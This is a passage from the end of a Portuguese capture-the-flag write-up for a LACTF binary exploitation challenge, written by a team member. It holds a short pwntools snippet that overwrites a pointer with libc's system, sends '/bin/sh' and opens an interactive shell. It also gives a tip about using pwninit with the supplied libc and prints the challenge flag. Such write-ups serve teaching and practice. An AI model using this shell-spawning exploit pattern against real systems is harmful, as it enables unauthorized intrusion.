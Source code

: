 ```py
write(p64(libc.sym["system"]))
p.sendlineafter(b"Choice: ", b"/bin/sh")
p.interactive()
```

{% endcode %}

{% hint style="warning" %}

**Importante:** O ideal para esse desafio é usar uma ferramenta como o **pwninit** que cria um novo executável vinculado com a *libc* informada, pois usando o executável normal e sem o *linker*, a *libc* utilizada será a do sistema. No caso, eu não usei o **pwninit** e por isso tive que abrir a *libc* separadamente no programa.

{% endhint %}

### Flag
`lactf{ro9u3_LIk3_No7_R34LlY_RO9U3_H34P_LIK3_nO7_r34llY_H34P}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)